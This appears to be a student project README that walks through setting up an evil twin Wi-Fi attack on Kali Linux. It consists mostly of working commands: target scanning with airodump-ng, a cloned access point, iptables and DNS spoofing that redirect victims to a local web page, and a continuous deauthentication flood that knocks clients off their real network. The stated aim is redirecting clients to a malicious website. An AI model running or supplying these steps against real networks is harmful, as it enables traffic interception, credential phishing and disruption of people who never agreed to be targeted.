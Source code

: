 # How to Setup the Evil Network:
This document outlines the steps we took in order to setup an evil twin access point and cause clients to be redirected to a malicious website.

# TODO
- need to capture the specific device with airodump-ng wlan1mon
- must make sure monitoring wlan1 is not connected to internet
- explain all steps in detail
- add screenshots

# Prerequisites
- kali linux
- may need an external usb wifi adapter

1. Update Device and install dependencies
	```
	sudo apt-get update
	sudo apt-get install dnsmasq dsniff mariadb-server
	git clone https://github.com/trustedsec/social-engineer-toolkit/ setoolkit/
	cd setoolkit
	pip3 install  Cython
	pip3 install -r requirements.txt
	python3 setup.py
	```
	
2. Configure dns masq

	```
	mkdir /Desktop/eviltwin
	cd /Desktop/eviltwin
	touch dnsmasq.conf
	```

	Enter these details into dnsmasq.conf:
	```
	interface=at0
	dhcp-range=10.0.0.10,10.0.0.250,12h
	dhcp-option=3,10.0.0.1
	dhcp-option=6,10.0.0.1
	server=8.8.8.8
	log-queries
	log-dhcp
	listen-address=127.0.0.1
	```

3. Update NetworkManager.conf  
	`vim /etc/NetworkManager/NetworkManager.conf`

	Add these lines to the end of the file   
	```
	[keyfile]
	unmanaged-devices:mac=AA:BB:CC:DD:EE:FF, A2:B2:C2:D2:E2:F2
	```

4. View available internet interfaces  
	`iwconfig`  
	You should see several devices such as eth0, wlan0, lo, etc.
	![network interfaces](https://github.com/tylerhiggins/cs425-backdoor/blob/tutorial/screenshots/4.0-iwconfig.png)
	
	Now plug in your usb wireless adapter and run `iwconfig` again. You should see your new network device with the name of something like wlan1 for example. You will need this for the next step.
	![network interfaces 2](https://github.com/tylerhiggins/cs425-backdoor/blob/tutorial/screenshots/4.1-iwconfig.png)

5. Enable the wireless adapter  
	`ifconfig wlan1 up`

6. Ensure the wireless card is not connected to internet.  
  	`nmcli con`
	If it shows it is connected in the list, disconnect it from the network that is connected to our adapter with:  
	`nmcli con down <UUID>`

7. Now we will create a monitor interface by putting the wireless adapter into monitor mode.  
	`airmon-ng start wlan1`
	You will likely see a message that says to run `airmon-ng check kill` to kill interfering processes. We can safely ignore this.

8. Look at iwconfig again and we can see our new network monitoring device.  
	`iwconfig`
	It will have a name such as `wlan1mon`.
	![network interfaces](https://github.com/tylerhiggins/cs425-backdoor/blob/tutorial/screenshots/8.0-iwconfig.png)

9. Find the device to spoof and record the BSSID (mac address), channel, and ESSID.  
	 - First update known manufacturer mac addresses of routers:  
	 `airodump-ng-oui-update`

	- Then get a list of all the devices broadcasting around you.  
	`airodump-ng wlan1mon`  
	Look under the ESSID column for the name of the network you want to spoof.
	When you see it hit  
	`ctrl+c`  
	and then copy that line to a text file.
	Copy down the BSSID (MAC address), CH (channel), and ESSID (Wireless access point name) values.
	![airodump](https://github.com/tylerhiggins/cs425-backdoor/blob/tutorial/screenshots/9.0-airodump.png)

10. Now for fun, take a look at the devices connected to that network.  
	Enter the BSSID from the previous step in this command:  
	`airodump-ng -d A0:A0:A0:00:00:A0 wlan1mon`
	![devices](https://github.com/tylerhiggins/cs425-backdoor/blob/tutorial/screenshots/10.0-airodump.png)

11. Lets boost our signal strength, to the max legal limit in the US.  
	(Note that not all wireless adapters support this.)
	```
	ifconfig wlan1mon down     
	iw reg set US              
	ifconfig wlan1mon up       
	```
	Again you can check the signal strength with `iwconfig wlan1mon`  
	The Tx-Power should now read 30 dBm.

12. Start up the evil twin AP (access point)  
	Give the evil twin the same name as the network you are attacking on the same channel.  
	`airbase-ng -e "zzzz" -c 11 wlan1mon`  
	At this point you should be able to see your evil network listed under the available wireless networks on your phone or computer. It will have the same name, but not be password protected.
	![evil](../screenshots/12-evil_twin.png)

13. Create an interface to give the evil twin connection to the internet.  
	```
	ifconfig at0
	ifconfig at0 10.0.0.1 up
	```

14. Route all traffic through the at0 interface.  
	The device wlan0, or eth0 in the second line, must be the interface connected to the internet for this to work. It must be a different interface than the monitoring device.
	```
	iptables --flush
	iptables --table nat --append POSTROUTING --out-interface wlan0 -j MASQUERADE
	iptables --append FORWARD --in-interface at0 -j ACCEPT
	iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination 10.0.0.1:80
	iptables -t nat -A PREROUTING -j MASQUERADE
	```
	If these commands give errors we can try to use a legacy version of iptables. do the following and then rerun the commands
	`sudo update-alternatives --config iptables`
	Select the `/usr/sbin/iptables-legacy 10 manual mode` option

15. Enable port forwarding  
	`echo 1 > /proc/sys/net/ipv4/ip_forward`

16. Enable the evil twin to allocate ip addresses to clients.  
	`dnsmasq -C /root/Desktop/dnsmasq.conf -d`  
	Congratulations, you have setup a hotspot for yourself.
	![intercept](../screenshots/16-dnsmasq.png)
	![intercept2](../screenshots/16.1-dnsmasq.png)

17. Now we can start a local Apache webserver that we can redirect traffic to.  
	Place a webpage under  
	`/var/www/html/index.html`  
	Start the server:  
	`sudo /etc/init.d/apache2 start`
	
	Here is our example webpage named `index.html`
	![index](https://github.com/tylerhiggins/cs425-backdoor/blob/tutorial/screenshots/17-index.png)

18. Your apache server is running locally. Record the servers IP address.  
	Either localhost or the devices ip address can be used.  
	`hostname -I` will give you your devices ip address. Additionally you can use localhost which is `127.0.0.1`

19. Now we can do some dns spoofing.  
	Create a file `config/dnsspoof.conf`  
	Add urls you want to spoof to it. For example the following will redirect anyone trying to visit http://www.example.com to our local apache server.  
	`127.0.0.1	example.com`  
	Note that the ip address and url must be separated by a tab, not spaces.
	You can add as many lines like this as you like for redirecting traffic. Currently only http sites work, not https sites.
	![intercept2](../screenshots/19-spoof.png)


20. Now deauthorize clients so they connect to our network instead of their legit network.  
	`aireplay-ng –deauth 0 -a <BSSID> wlan1mon`


# Caveats
Only works for http websites, not https websites 

## Sources
Follow this tutorial: https://www.yeahhub.com/evil-twin-attack-dnsmasq-wireless-wpa2-psk-cracking/
This one is good too: rootsh3ll.com/evil-twin-attack/





